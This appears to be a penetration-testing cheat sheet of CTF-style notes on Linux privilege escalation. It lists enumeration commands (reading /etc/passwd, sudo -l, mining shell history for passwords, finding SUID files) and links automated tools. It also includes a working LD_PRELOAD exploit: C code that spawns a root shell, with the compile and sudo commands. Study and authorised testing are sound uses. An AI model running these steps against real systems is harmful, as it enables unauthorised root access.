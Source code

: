 # Linux PrivEsc

## Important files

`/proc/version` = may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

`/etc/issue` = This file usually contains some information about the OS but can easily be customized or changed

`/etc/passwd` = Shows users on the system



Cat users with home directory

```bash
cat /etc/passwd | grep home
```

## Important commands

`hostname` = get **hostname** of target

`uname -a` = Print system info + **kernel** info

`ps` = See running processes in Linux

* `ps -A` = View all running processes
* `ps axjf` = View process tree
* `ps aux` = Show processes for all users, display the user that launched the process, and show the processes that are not attached to a terminal

`env` = Show **environment** variables

* The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

`sudo -l` = List **all commands** user can run using **sudo**

`id` = provide a general overview of the **user's privilege level** and **group memberships**

`history` = History file might have some **passwords** or **usernames** inside

`netstat` = Gather information on existing connections

* `netstat -a` shows all listening ports and established connections
* `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
* `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol&#x20;
* `netstat -s`: list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.
* `netstat -tp`: list connections with the service name and PID information.
* `netstat -i`: Shows interface statistics.
* The `netstat` usage you will probably see most often in blog posts, write-ups, and courses is `netstat -ano` which could be broken down as follows;
  * `-a`: Display all sockets
  * `-n`: Do not resolve names
  * `-o`: Display timers

Find

* `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
* `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
* `find / -type d -name config`: find the directory named config under “/”
* `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
* `find / -perm a=x`: find executable files
* `find /home -user frank`: find all files for user “frank” under “/home”
* `find / -mtime 10`: find files that were modified in the last 10 days
* `find / -atime 10`: find files that were accessed in the last 10 day
* `find / -cmin -60`: find files changed within the last hour (60 minutes)
* `find / -amin -60`: find files accesses within the last hour (60 minutes)
* `find / -size 50M`: find files with a 50 MB size

Find files permission based on permissions

* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
* `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders



* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders



Find development tools and supported languages:

* `find / -name perl*`
* `find / -name python*`
* `find / -name gcc*`



SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

## Automated Enumeration Tools

* LinPeas:&#x20;

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS" %}

* LinEnum:&#x20;

{% embed url="https://github.com/rebootuser/LinEnum" %}

* LES (Linux Exploit Suggester):

{% embed url="https://github.com/mzet-/linux-exploit-suggester" %}

* Linux Smart Enumeration:

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

* Linux Priv Checker:

{% embed url="https://github.com/linted/linuxprivchecker" %}

## Kernel Exploits

1. Based on your findings, you can use **Google** to search for an existing exploit code.
2. Sources such as this can also be useful:

{% embed url="https://www.linuxkernelcves.com/cves" %}

3. Another alternative would be to use a script like **LES (Linux Exploit Suggester)** but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

## Sudo

{% embed url="https://gtfobins.github.io/" %}

### LD\_PRELOAD

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD\_PRELOAD (with the env\_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD\_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

## SUID

`find / -type f -perm -4000 2>/dev/null`

## Capabilities

`getcap` = List enabled capabilities

`getcap -r / 2>/dev/null` = Redirect errors when using running this command as unprivileged user

## Cron Jobs

`/etc/crontab` = Cron jobs file

## Path

See Path Variable: `echo $PATH`

You can use C scripts with system() function in this privesc method

## NFS

`cat /etc/exports` = See NFS (Network File Sharing) configuration

Look out for **no\_root\_squash** option

`showmount -e [IP_ADDR]` = Enumerate mountable shares

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As you can set SUID bit, you generate a C code and compile it. It automatically is also visible on the mounted directory on target
